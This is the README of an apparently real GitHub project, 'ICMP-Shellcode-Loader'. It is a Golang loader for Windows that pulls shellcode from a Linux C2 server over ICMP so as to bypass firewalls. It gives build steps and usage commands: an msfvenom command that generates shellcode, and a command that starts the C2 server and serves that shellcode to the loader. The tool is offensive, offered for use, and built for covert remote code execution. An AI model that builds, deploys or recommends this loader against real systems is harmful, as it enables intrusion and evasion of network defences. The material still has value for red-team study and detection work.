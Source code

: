 # ICMP-Shellcode-Loader
A Golang shellcode loader that receives payloads via ICMP packets to bypass firewalls.
The shellcode loader is developed for Windows and the C2 software for Linux systems.

## Requirements
- Windows OS
- Linux OS or download pre-compiled icmp-c2-server
- GoLand IDE
- Metasploit (to generate shellcodes)
- VPS (only for C&C over internet)

## How to build
- insert the IP of your VPS in the icmp-sc-loader.go 
- build icmp-sc-loader.go on Windows
- build icmp-c2-server.go static on Linux (build with CGO_ENABLED=0 and -ldflags '-extldflags "-static"') or download pre-compiled icmp-c2-server

<img src="https://user-images.githubusercontent.com/79810730/223784387-a94cffea-f29d-4463-97ef-067c42e40b95.PNG" alt="static compile" style="width:50%;"/>

## How to use
- generate custom shellcode with msfvenom (it is important that the exitfunc is set to thread) i.e. ```msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f hex```
 
- start the C2 software as root on your Linux system or your Linux VPS i.e. with ```./icmp-c2-server -a 64 -os win -sc <your shellcode>```
- start the shellcode loader on your Windows and enjoy
